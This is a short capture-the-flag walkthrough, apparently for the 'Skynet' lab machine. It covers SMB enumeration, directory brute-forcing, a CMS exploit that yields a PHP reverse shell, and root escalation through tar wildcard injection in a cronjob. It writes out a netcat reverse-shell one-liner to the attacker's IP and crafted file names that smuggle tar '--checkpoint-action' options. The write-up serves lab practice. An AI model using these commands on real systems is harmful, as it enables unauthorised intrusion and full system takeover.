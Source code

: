 nmap shows there is smb login potential

```
smbmap -H $IP
smbget -R smb://$IP/anonymous
smbclient //$IP/anonymous
```

find a password reset in the inbox, so now you get get everything from miles smb

```
smbget -R smb://$IP/milesdyson -U milesdyson
```

find that there is a cms beta in

```
/45kra24zxs28v3yd
```

attack with gobuster to find that there is a ***/administrator*** page

find the cms exploit and get a php reverse shell

find a cronjob runing by

```
cat /etc/crontab
```

see that there is a backup.sh script running and it contains a tar command. tar has a vuln in it because of its wild cards, so the following will get you root

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip>
1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```
